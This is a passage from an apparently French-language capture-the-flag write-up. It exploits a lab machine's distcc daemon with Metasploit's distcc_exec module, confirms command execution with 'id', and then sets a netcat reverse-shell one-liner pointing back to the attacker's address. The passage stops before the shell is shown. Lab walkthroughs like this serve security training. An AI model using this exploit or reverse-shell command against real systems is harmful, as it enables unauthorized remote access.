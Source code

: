 ```sh
─# ls /usr/share/nmap/scripts | grep "distcc" 
distcc-cve2004-2687.nse
```

![Vulnerable](https://i.ibb.co/M2NZwNq/l3.png)

L'exploit confirme bien qu'il est vulnerable, alors je vais aussi utiliser `Metasploit` pour exploiter ce protocol

```sh
msf6 > search distcc

Matching Modules
================

   #  Name                           Disclosure Date  Rank       Check  Description
   -  ----                           ---------------  ----       -----  -----------
   0  exploit/unix/misc/distcc_exec  2002-02-01       excellent  Yes    DistCC Daemon Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/misc/distcc_exec

msf6 > use 0
[*] No payload configured, defaulting to cmd/unix/reverse_bash
msf6 exploit(unix/misc/distcc_exec) > set lhost tun0 
lhost => 10.10.14.10
msf6 exploit(unix/misc/distcc_exec) > set lport 1337
lport => 1337
msf6 exploit(unix/misc/distcc_exec) > set rhosts 10.10.10.3
msf6 exploit(unix/misc/distcc_exec) > set payload cmd/unix/generic 
payload => cmd/unix/generic
msf6 exploit(unix/misc/distcc_exec) > set cmd id
cmd => id
msf6 exploit(unix/misc/distcc_exec) > run

[*] 10.10.10.3:3632 - stdout: uid=1(daemon) gid=1(daemon) groups=1(daemon)
[*] Exploit completed, but no session was created.
msf6 exploit(unix/misc/distcc_exec) > 
```

Ici, j'utilise le payload `cmd/unix/generic` qui va me permettre d'executer des command specifique, comme on le voit bien dans `set cmd id` ou je specifie ma commande qui sera un `id` de l'utilisateur. et qui me donne un resultat `uid=1(daemon) gid=1(daemon) groups=1(daemon)`

Donc maintenant, je vais mettre un payload pour obtenir un shell sur la machine.

```sh
msf6 exploit(unix/misc/distcc_exec) > set cmd 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.14.10 1338 >/tmp/f'
cmd => rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.14.10 1338 >/tmp/f
Payload options (cmd/unix/generic):

   Name  Current Setting                            Required  Description
   ----  ---------------                            --------  -----------
   CMD   rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -  yes       The command string to execute
         i 2>&1|nc 10.10.14.10 1338 >/tmp/f


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target

```